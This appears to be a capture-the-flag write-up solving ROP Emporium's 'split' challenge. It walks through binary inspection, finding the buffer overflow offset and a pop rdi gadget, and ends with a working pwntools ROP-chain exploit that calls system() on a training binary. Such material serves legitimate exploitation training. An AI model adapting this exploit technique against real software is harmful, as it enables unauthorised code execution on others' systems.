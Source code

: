 # Challenge 2 - split
## Description
This is the second of the ROP Emporium challenges. [split](https://ropemporium.com/challenge/split.html)

"Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain."

Let's start, as usual, by inspecting the binary:

```
mfumega@pwn-boy:/pwn-boy$ file split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
mfumega@pwn-boy:/pwn-boy$ pwn checksec split
[*] '/pwn-boy/split'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
After this info, let's run the binary to see what's happening 

```
mfumega@pwn-boy:/pwn-boy$ ./split
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> AAA
Thank you!

Exiting
```

So, the behaviour seems to be pretty similar to the previous one.
If we look at the functions the binary now has, we see the ret2win one is not present anymore: 
```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
[...]
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400742  usefulFunction
```

The binary is the same, but this time, we have a function called "usefulFunction" that contains a call to `system()`.

If we inspect the binary, we'll find a string that opens the flag.txt file: 
```
pwndbg> search "/bin/cat"
Searching for byte: b'/bin/cat'
split           0x601060 '/bin/cat flag.txt'
pwndbg>
```

This will come handy later on the challenge. 

In Ghidra we can see the `pwnme()` function doing again the call on "read" for a size bigger that the variable storing it
```
void pwnme(void)

{
  undefined1 local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_28,0x60);
  puts("Thank you!");
  return;
}
```

So, doing a recap, we have: 
- A buffer overflow
- An function that calls "system()" at 0x40074b (this is the address to the call to system inside the function) 
- A string containing "/bin/cat flag.txt" at 0x601060

If we take a quick look on the man page for "system", we'll see that it will run a command passed as an argument
```
NAME
       system - execute a shell command

SYNOPSIS
       #include <stdlib.h>

       int system(const char *command);
```

So, the general idea will be to run `system("/bin/cat flag.txt")`. 

To pass arguments to a function, we must rely on computer registers like this:
- RDI > First argument
- RSI > Second argument
- RDX > Third argument
- RCX > Fourth argument
- R8 > Fifth argument
- R9 > Sixth argument

So, we must store our command string on RDI, and then call `system`. 
To put a value on a register, we can use the assembler instruction "pop". This will take a value from the stack, and store it on a register. For this matter, we should use `pop RDI`.

So now we need: 
- A "pop rdi" gadget
- The address of our command string (0x601060)
- The address where system() is called on the usefulFunction (0x40074b)

Now, for the address of our "pop rdi" gadget, we'll use a tool called "ropper":
```
mfumega@pwn-boy:/pwn-boy$ ropper --file split --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret;

mfumega@pwn-boy:/pwn-boy$
```

Ok, so we know have everything we need. Let's calculate the offset for our buffer overflow running the program and inspecting the stack, just as the previous challenge:
```
 ► 0         0x400735 pwnme+77
   1         0x4006d7 main+64
   2   0x7ffff7da8d90 __libc_start_call_main+128
   3   0x7ffff7da8e40 __libc_start_main+128
   4         0x4005da _start+42
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x/25gx $rsp
0x7fffffffdd00: 0x4141414141414141      0x000000000000000a
0x7fffffffdd10: 0x0000000000000000      0x0000000000000000
0x7fffffffdd20: 0x00007fffffffdd30      0x00000000004006d7
0x7fffffffdd30: 0x0000000000000001      0x00007ffff7da8d90
0x7fffffffdd40: 0x0000000000000000      0x0000000000400697
0x7fffffffdd50: 0x00000001ffffde30      0x00007fffffffde48
0x7fffffffdd60: 0x0000000000000000      0x1e63be88416db69a
0x7fffffffdd70: 0x00007fffffffde48      0x0000000000400697
0x7fffffffdd80: 0x0000000000000000      0x00007ffff7ffd040
0x7fffffffdd90: 0xe19c4177fbefb69a      0xe19c513d5be7b69a
0x7fffffffdda0: 0x00007fff00000000      0x0000000000000000
0x7fffffffddb0: 0x0000000000000000      0x00007fffffffde48
0x7fffffffddc0: 0x0000000000000000
pwndbg>
```

We see our input starting at 0x7fffffffdd00 and the return address at 0x7fffffffdd28. This is an offset of 40 bytes.

Let's now build our exploit:
```
#!/usr/bin/env python3

from pwn import *

binary_path = '/pwn-boy/split'
p = process(binary_path)

offset = 40
usefulFunction_addr = 0x40074b
pop_rdi_addr = 0x4007c3
bin_cat_addr = 0x601060

payload = b'A' * offset
payload += p64(pop_rdi_addr) + p64(bin_cat_addr)
payload += p64(usefulFunction_addr)

p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1'))
```
And we got the flag. That's it for this challenge, see you on the next one! 

